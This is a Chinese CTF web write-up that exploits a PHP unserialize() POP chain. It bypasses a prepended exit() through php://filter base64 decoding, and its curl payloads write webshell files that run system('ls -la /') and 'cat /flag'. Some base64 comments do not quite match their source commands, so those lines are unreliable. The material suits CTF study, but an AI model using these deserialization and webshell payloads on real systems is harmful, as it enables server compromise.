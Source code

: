 
#wp #web

【[[WEB]]】扩展题目 - [[扩展题目]]

创建时间：2025-07-06 02:28

### 解题过程

    
- **关键源码**：
    
    ```php
    Class FLAG {
        public $filename;
        public $content;
        public function __call($name, $arguments) {
            if (preg_match('/%|eval|exec|shell|system|passthru|assert|echo|print|`/i', $this->content)) {
                die('feng不喜欢这些字符');
            }
            echo "你该如何过死亡代码呢?";
            file_put_contents($this->filename, '<?php exit();' . $this->content);
        }
    }
    Class welcome {
        public $feng;
        public $you;
        public function __destruct() {
            if (isset($this->you) && $this->you=='Welcome to join CTF web Team') {
                echo "good";
                $this->feng->source;
            }
        }
        public function __invoke() {
            echo $this->feng;
        }
    }
    Class Geek {
        public $tou;
        public function __get($name) {
            $Challenge = $this->tou;
            return $Challenge();
        }
        public function __toString() {
            $this->tou->Getflag();
            return "Just do it";
        }
    }
    unserialize($_POST['data']);
    ```
    

## 二、漏洞原理

1. **魔术方法链**
    
    - `welcome::__destruct()` 在析构时会执行 `$this->feng->source;`
        
    - 把 `feng` 设为 `Geek` 对象可触发 `Geek::__get('source')`，其会把 `tou` 当作可调用执行
        
    - 令 `Geek->tou = [ $flagObj, 'source' ]`，即可触发 `FLAG::__call('source', [])`
        
2. **“死亡代码”阻断 & 绕过思路**
    
    - 目标在写文件时会加上前缀 `<?php exit();`，并且拒绝内容中含有 `system|eval|...` 等关键字符
        
    - 利用 `php://filter` 伪协议，先用 `string.strip_tags` 去掉前缀，再用 `convert.base64-decode` 解码出真正的 PHP 代码
        

## 三、利用流程

### 1. 写入 `phpinfo.php`（验证管道可用）

- **payload 中的 filename**
    
    ```php
    php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php
    ```
    
- **payload 中的 content**
    
    ```php
    echo -n '<?php phpinfo();?>' | base64
    # => PD9waHAgcGhwaW5mbygpOz8+
    # 加前缀 ">?>"： ?>PD9waHAgcGhwaW5mbygpOz8+
    ```
    
- **完整 curl**
    
    ```sh
    curl -X POST 'http://110.42.47.169:35406/' \
      --data-urlencode 'data=O:7:"welcome":2:{s:4:"feng";O:4:"Geek":1:{s:3:"tou";a:2:{i:0;O:4:"FLAG":2:{s:8:"filename";s:79:"php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php";s:7:"content";s:26:"?>PD9waHAgcGhwaW5mbygpOz8+";}i:1;s:6:"source";}}s:3:"you";s:28:"Welcome to join CTF web Team";}'
    ```
    
- **效果**：访问 `http://110.42.47.169:35406/phpinfo.php` 出现 PHP 信息页，证明写入管道正常。
    

### 2. 写入 `dir.php`（目录探测）

- **filename**
    
    ```bash
    php://filter/write=string.strip_tags|convert.base64-decode/resource=dir.php
    ```
    
- **content**
    
    ```bash
    echo -n '<?php system("ls -la /");?>' | base64
    # => PD9waHAgc3lzdGVtKCdscyAtbGEgLCAvJyk7Pz4=
    # 加前缀 ">?>"： ?>PD9waHAgc3lzdGVtKCdscyAtbGEgLCAvJyk7Pz4=
    ```
    
- **完整 curl**
    
    ```bash
    curl -X POST 'http://110.42.47.169:35406/' \
      --data-urlencode 'data=O:7:"welcome":2:{s:4:"feng";O:4:"Geek":1:{s:3:"tou";a:2:{i:0;O:4:"FLAG":2:{s:8:"filename";s:75:"php://filter/write=string.strip_tags|convert.base64-decode/resource=dir.php";s:7:"content";s:42:"?>PD9waHAgc3lzdGVtKCdscyAtbGEgLCAvJyk7Pz4=";}i:1;s:6:"source";}}s:3:"you";s:28:"Welcome to join CTF web Team";}'
    ```
    
- **效果**：访问 `http://110.42.47.169:35406/dir.php`，可见 `/` 根目录文件列表。
    

### 3. 写入 `flag.php`（获取 Flag）

- **filename**
    
    ```bash
    php://filter/write=string.strip_tags|convert.base64-decode/resource=flag.php
    ```
    
- **content**
    
    ```bash
    echo -n '<?php system("cat /flag");?>' | base64
    # => PD9waHAgc3lzdGVtKCdjYXQgL2ZsYWcnKTs/Pg==
    # 加前缀 ">?>"： ?>PD9waHAgc3lzdGVtKCdjYXQgL2ZsYWcnKTs/Pg==
    ```
    
- **完整 curl**
    
    ```bash
    curl -X POST 'http://110.42.47.169:35406/' \
      --data-urlencode 'data=O:7:"welcome":2:{s:4:"feng";O:4:"Geek":1:{s:3:"tou";a:2:{i:0;O:4:"FLAG":2:{s:8:"filename";s:76:"php://filter/write=string.strip_tags|convert.base64-decode/resource=flag.php";s:7:"content";s:42:"?>PD9waHAgc3lzdGVtKCdjYXQgL2ZsYWcnKTs/Pg==";}i:1;s:6:"source";}}s:3:"you";s:28:"Welcome to join CTF web Team";}'
    ```
    
- **查看 Flag**：访问
    
    ```
    http://110.42.47.169:35406/flag.php
    ```
    
    即可看到 `/flag` 文件内容。
    

## 四、小结

- **核心**：魔术方法链 `welcome->__destruct` → `Geek->__get` → `FLAG->__call`
    
- **绕过**：利用 `php://filter` 双过滤器剥除死代码并解码执行
    
- **步骤**：写入 `phpinfo.php` 验证 → `dir.php` 探测目录 → `flag.php` 获取 Flag
    
- **成果**：成功读取系统 `/flag`，拿到题目 Flag